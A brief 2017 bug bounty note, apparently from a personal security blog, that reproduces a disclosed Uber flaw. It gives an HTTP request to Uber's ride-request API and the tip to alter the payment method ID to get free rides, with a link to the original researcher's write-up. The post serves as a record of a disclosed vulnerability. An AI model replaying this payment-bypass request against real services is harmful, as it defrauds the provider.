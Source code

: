 ```yaml
---
id: 4450
title: 'bug bounty note&#8212;-UBER'
date: 2017-03-14T17:05:54+00:00
author: admin
layout: post
guid: http://blog.ikow.cn/?p=4450
permalink: /bug-bounty-note-uber/
categories:
  - bug bounty
  - WEB
tags:
  - bug bounty
  - uber
---
```

free uber:

POST /api/dial/v2/requests HTTP/1.1 Host: dial.uber.com {&#8220;start\_latitude&#8221;:12.925151699999999,&#8221;start\_longitude&#8221;:77.6657536,
  
&#8220;product\_id&#8221;:&#8221;db6779d6-d8da-479f-8ac7-8068f4dade6f&#8221;,&#8221;payment\_method_id&#8221;:&#8221;xyz&#8221;}

change payment\_method\_id

reference url :http://www.anandpraka.sh/2017/03/how-anyone-could-have-used-uber-to-ride.html